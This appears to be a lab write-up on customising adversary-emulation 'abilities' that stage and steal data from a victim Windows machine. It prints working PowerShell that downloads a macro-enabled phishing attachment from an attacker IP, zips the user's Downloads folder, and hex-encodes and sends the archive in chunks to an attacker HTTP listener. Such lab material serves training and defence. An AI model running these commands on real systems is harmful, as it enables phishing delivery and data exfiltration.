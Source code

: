### **Modifying Existing Abilities**

Since the victim machine dose not have an internet connection, we mush host the malicious file on our attacking machine for the victim to download. 

View the ability `Download Macro-Enabled Phishing Attachment` 

<img width="1412" height="680" alt="image" src="https://github.com/user-attachments/assets/275bc6ea-0ad8-4017-b953-5d1e277f5c85" />

<img width="1131" height="726" alt="image" src="https://github.com/user-attachments/assets/aac710dc-bcbf-44fb-bae4-3be8093ea964" />

And change the URL to our attack IP machine and the listening port. Then save the ability

```powershell
$url = 'http://10.10.118.21:8080/PhishingAttachment.xlsm'; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

<img width="1203" height="636" alt="image" src="https://github.com/user-attachments/assets/199231c8-1428-4c29-a8a4-1403f30d3d82" />

The second ability to customise is  `Zip a Folder with PowerShell for Staging in Temp`

<img width="791" height="292" alt="image" src="https://github.com/user-attachments/assets/67528e6a-b0ce-421f-b964-549dfc228900" />

change the commands to this:

```powershell
# Attack Command
Compress-Archive -Path $env:USERPROFILE\Downloads -DestinationPath $env:TEMP\exfil.zip -Force

# Cheanup command
Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore

```

<img width="1081" height="459" alt="image" src="https://github.com/user-attachments/assets/75c580df-4140-4eb5-9a3b-38dc9cc82d09" />

### Creating a Custom Ability

the ability `Exfiltrating Hex-Encoded Data Chunks over HTTP` does not exist, so we must create a new ability to complete the emulation activity. The goal is to execute a command that exfiltrates the collected data from the `Zip a Folder with PowerShell for Staging in Temp` ability.

To do this, we will use the following PowerShell commands to hex-encode the data, split it into chunks, and send it to the existing HTTP listener (running on port 8080) from the AttackBox instance. 

```powershell
$file="$env:TEMP\exfil.zip"; $destination="http://10.10.118.21:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."

```

<img width="1114" height="640" alt="image" src="https://github.com/user-attachments/assets/d595ffe1-3fcd-47ed-96db-b988abd8b0b5" />
